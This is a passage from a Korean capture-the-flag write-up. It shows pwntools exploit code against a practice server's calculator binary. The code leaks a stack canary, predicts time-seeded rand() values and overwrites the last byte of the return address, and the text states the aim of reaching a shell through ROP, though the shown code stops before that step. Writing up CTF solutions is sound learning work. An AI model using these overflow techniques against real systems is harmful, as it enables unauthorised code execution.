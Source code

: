 ```python
		p.sendafter(b'Name? ', b'a' * buf_len)
		res = p.recvline().split(b',')[0][buf_len:]
		canary = u64(b'\x00' + res[:7])
		print("canary = " + hex(canary))
		stack = u64(res[7:] + b'\x00' * 2)
		print("stack = " + hex(stack))
		p.sendline(str(int(l.rand() + 1)).encode())
  
		p.sendafter(b'Name? ', b'a' * (buf_len - 1) + p64(canary) + b'b' * 8 + int.to_bytes(i, 1, 'little'))
		p.sendlineafter(b'> ', b'1')
		res = p.recvline()
		print(res)
		p.close()
		break
	except:
		p.close()
```

이를 실행시키면 buf_len = 105에서 canary 값이 나옴을 알 수 있고, RET 부분의 마지막 바이트를 0x74로 변조했을 때 key가 출력됩니다.
(key = b6616a3e97c67addfc7d8d741a9f05c836c5ca161869a3d63f1f0006b5a2b19d)
이를 이용하여 secret.zip 압축을 해제하면 Dockerfile이 나옵니다. 여기서 얻어야 할 점은 flag가 `/usr/lib/x86_64-linux-gnu/liblibliblibliblibliblib`에 위치한다는 것입니다.
## 익스플로잇 2 : shell 획득

gdb를 통해 prob를 분석해보면,

![[Pasted image 20240823144258.png]]
RET의 마지막 바이트를 0xa5로 바꾸면 calculator가 다시 실행됨을 알 수 있습니다. 이를 통해 버퍼 오버플로우를 다시 발생시킬 수 있고, ROP를 통해 shell을 획득하면 됩니다. 두 번째 익스 코드입니다.

```python
from pwn import *
from ctypes import *
  
buf_len = 105
l = cdll.LoadLibrary('/usr/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6') # 주어진 libc을 사용
e = ELF('./prob')
  
def st():
	p = remote('host3.dreamhack.games', 22141)
  
	v0 = int(l.time(0) + 0)
	l.srand(v0)
	win_cal = ['+', '+', '*', '*', '*', '*', '+', '*', '*', '+']
	for i in range(0, 10):
		num = int(l.rand())
		if win_cal[i] == '+':
			p.sendlineafter(b'> ', str(num + 1).encode())
		else:
			p.sendlineafter(b'> ', str(num).encode())
  
	return p
  
p = st()
p.sendafter(b'Name? ', b'a' * buf_len)
res = p.recvline().split(b',')[0][buf_len:]
canary = u64(b'\x00' + res[:7])
print("canary = " + hex(canary))
stack = u64(res[7:] + b'\x00' * 2)
print("stack = " + hex(stack))
p.sendline(str(int(l.rand() + 1)).encode())
```